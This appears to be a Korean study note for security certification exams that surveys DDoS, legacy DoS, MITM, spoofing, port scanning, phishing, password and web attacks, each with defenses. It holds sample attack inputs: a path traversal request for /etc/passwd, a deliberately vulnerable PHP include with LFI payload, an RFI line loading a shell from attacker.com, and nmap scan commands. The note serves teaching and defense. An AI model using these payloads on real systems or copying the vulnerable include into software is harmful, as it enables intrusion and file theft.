





## 🌐 개요 (Overview)

사이버 공격 유형을 이해하고 적절한 대응 방안을 마련하는 것이 보안의 핵심입니다.

## 💥 DDoS (Distributed Denial of Service)

### 공격 유형

#### 1. Volumetric Attacks (대역폭 소진)

**UDP Flood**:
```
공격자 → 다수 Bot → 대량 UDP 패킷 → 피해자
                      (100+ Gbps)
```

**DNS Amplification**:
```
1. 공격자: DNS 쿼리 전송 (Source IP 위조)
2. DNS 서버: 큰 응답 (50배 증폭)
3. 피해자: 대량 DNS 응답으로 마비
```

**증폭 비율**:
- DNS: 28~54배
- NTP: 556배
- Memcached: 51,000배 (!)

#### 2. Protocol Attacks (프로토콜 취약점)

**SYN Flood**:


**대응**: SYN Cookies 활성화

#### 3. Application Layer Attacks (L7)

**HTTP Flood**:
```
GET / HTTP/1.1
Host: target.com
(수백만 Bot이 정상 요청처럼 전송)
```

**Slowloris**:
```http
GET / HTTP/1.1
Host: target.com
X-a: b
(헤더를 천천히 전송하여 연결유지)
```

### DDoS 방어



**방어 기법**:
- CDN 및 Anycast
- Rate Limiting
- Challenge-Response (CAPTCHA)
- Geo-blocking
- ACL 기반 필터링

### 📚 고전 DoS 공격 (Legacy - 시험 대비용)

> [!NOTE]
> 아래 공격들은 **고전적인 DoS 공격**으로, 현대 네트워크 환경에서는 대부분 **방어 메커니즘이 구축**되어 실질적 위협이 크게 감소했습니다. 그러나 **정보보안 자격시험**에는 여전히 출제되므로 개념 이해가 필요합니다.

#### Smurf Attack (ICMP Flood)

**공격 메커니즘**:
```
1. 공격자: ICMP Echo Request (Source IP = 피해자 IP 위조)
2. 전송 대상: 브로드캐스트 주소 (예: 192.168.1.255)
3. 네트워크의 모든 호스트 → Echo Reply → 피해자
4. 증폭 효과: 1개 요청 → 수백 개 응답
```



**방어**:
- 라우터에서 directed broadcast 비활성화 (`no ip directed-broadcast`)
- ICMP Echo 요청 필터링
- **현대 환경**: 기본적으로 차단되어 있음

**현재 상태**: ⚠️ 거의 사용 불가 (네트워크 장비 기본 설정으로 방어)

---

#### Land Attack

**공격 메커니즘**:
```
특수 TCP SYN 패킷 전송:
Source IP = Destination IP = 피해자 IP
Source Port = Destination Port = 동일

→ 피해자가 자기 자신에게 응답을 보내는 무한 루프
→ 시스템 리소스 고갈
```

**패킷 구조**:
```
TCP SYN Packet:
Source IP: 192.168.1.100
Dest IP:   192.168.1.100  (동일!)
Source Port: 80
Dest Port:   80            (동일!)
```

**영향**:
- 구형 OS (Windows 95/NT, 초기 Linux 커널)에서 시스템 크래시
- 무한 루프로 CPU 점유

**방어**:
- 방화벽/IDS에서 Source = Dest 패킷 차단
- 현대 OS 커널에 패치 적용됨

**현재 상태**: ⚠️ 현대 시스템에서 영향 없음 (커널 패치 완료)

---

#### Teardrop Attack (IP Fragment Overlap)

**공격 메커니즘**:
```
조작된 IP 조각(fragment) 패킷 전송:

정상 조각:
[Frag 1: offset 0, length 100]
[Frag 2: offset 100, length 100]  ✅ 정상

악의적 조각:
[Frag 1: offset 0, length 100]
[Frag 2: offset 50, length 100]   ❌ 중첩!

→ 재조립 과정에서 버퍼 오버플로우
→ 시스템 크래시
```

**영향**:
- 구형 OS (Windows 3.1x, NT 4.0, Linux 2.0.x)에서 블루스크린/커널 패닉
- IP 재조립 코드의 취약점 악용

**방어**:
- 방화벽에서 중첩된 fragment 탐지 및 차단
- OS 패치 (모든 현대 OS에 수정됨)

**현재 상태**: ⚠️ 역사적 공격 (현대 시스템 영향 없음)

---

#### 고전 공격 요약

| 공격 | 메커니즘 | 현대 환경 | 시험 출제 |
|------|----------|-----------|----------|
| **Smurf** | ICMP 반사 증폭 | 거의 불가능 | ⭐⭐⭐ |
| **Land** | Source=Dest 무한루프 | 패치 완료 | ⭐⭐ |
| **Teardrop** | Fragment 중첩 | 패치 완료 | ⭐⭐ |

> [!TIP]
> **시험 대비**: 공격 원리와 이름만 기억하면 충분합니다. 실무에서는 현대적인 DDoS 공격 (SYN Flood, HTTP Flood, DNS Amplification)에 집중하세요.

## 🎭 MITM (Man-in-the-Middle)

### 공격 시나리오



### ARP Spoofing

```bash
# 공격자가 위조 ARP 응답 전송
Attacker → Victim: "게이트웨이 IP의 MAC은 내 MAC"
Attacker → Gateway: "희생자 IP의 MAC은 내 MAC"

# 결과: 모든 트래픽이 공격자를 경유
```

**탐지**:
```bash
# ARP 테이블 모니터링
arp -a | watch

# arpwatch 도구 사용
sudo arpwatch -i eth0
```

**방어**:
- 정적 ARP 엔트리
- Dynamic ARP Inspection (스위치 기능)
- [[network-security-protocols|TLS/SSL]] 사용

### SSL Stripping

```
1. 사용자가 http://bank.com 접속
2. 공격자가 MITM 위치에서 중계
3. 사용자 ↔ 공격자: HTTP (평문)
4. 공격자 ↔ 서버: HTTPS (암호화)
5. 사용자는 HTTP로 통신하는 줄 모름
```

**방어**: [[network-security-protocols|HSTS]]

## 🎪 Spoofing 공격

### IP Spoofing

```
공격자가 Source IP를 위조:
From: 192.168.1.100 (실제: 1.2.3.4)
→ 응답이 엉뚱한 곳으로 전송
→ DDoS 반사 공격에 활용
```

**방어**:
- Ingress/Egress 필터링 (BCP 38)
- 안티스푸핑 ACL

### DNS Spoofing/Poisoning



**방어**:
- [[dns-fundamentals|DNSSEC]]
- DNS over HTTPS/TLS

## 📡 포트 스캔

### 스캔 유형

```bash
# TCP Connect Scan (가장 기본)
nmap -sT target.com

# SYN Scan (Stealth)
nmap -sS target.com

# UDP Scan
nmap -sU target.com

# OS Detection
nmap -O target.com

# 버전 탐지
nmap -sV target.com
```

### 포트 스캔 탐지

```bash
# iptables로 포트 스캔 차단
iptables -A INPUT -p tcp --tcp-flags ALL NONE -j DROP
iptables -A INPUT -p tcp --tcp-flags SYN,FIN SYN,FIN -j DROP
iptables -A INPUT -p tcp --tcp-flags SYN,RST SYN,RST -j DROP

# Port knock으로 포트 숨기기
iptables -A INPUT -m recent --name SSH --rcheck --seconds 60 -j DROP
iptables -A INPUT -p tcp --dport 22 -m recent --name SSH --set -j ACCEPT
```

## 🎣 Social Engineering

### 유형

1. **Phishing (피싱)**
   - 이메일로 가짜 사이트 유도
   - 로그인 정보 탈취

2. **Spear Phishing (스피어 피싱)**
   - 특정 개인/조직 표적
   - 맞춤형 공격

3. **Whaling (웨일링)**
   - CEO, 임원 표적
   - 고가치 정보 탈취

4. **Vishing (보이스 피싱)**
   - 전화로 사기

5. **Smishing (스미싱)**
   - SMS 문자로 악성 링크

### 방어

- 보안 인식 교육
- 의심스러운 링크 클릭 금지
- 발신자 확인
- MFA 사용

## 🔓 Password Attacks

### Brute Force

```python
# 모든 조합 시도
for password in all_combinations:
    if try_login(username, password):
        break
```

**방어**:
- 계정 잠금 (5회 실패 시)
- CAPTCHA
- Rate Limiting

### Dictionary Attack

```python
# 일반적인 패스워드 목록 사용
for password in common_passwords:
    # "password123", "qwerty", etc.
```

### Rainbow Table

```
미리 계산된 해시 테이블:
MD5("password") = 5f4dcc3b5aa765d61d8327deb882cf99
```

**방어**: Salt 사용
```python
hash(password + random_salt)
```

## 🌐 Web Attacks

### Directory Traversal

```http
GET /download?file=../../../../etc/passwd HTTP/1.1
```

**방어**:
- 입력 검증
- 경로 정규화
- chroot jail

### File Inclusion

**LFI (Local)**:
```php
<?php include($_GET['page']); ?>
// ?page=../../etc/passwd
```

**RFI (Remote)**:
```php
// ?page=http://attacker.com/shell.php
```

## 🔗 연결 문서 (Related Documents)

- [[firewall-ids-ips]] - 공격 탐지 및 차단
- [[network-security-protocols]] - 네트워크 보안
- [[web-security]] - 웹 공격 방어
- [[dns-fundamentals]] - DNS 보안
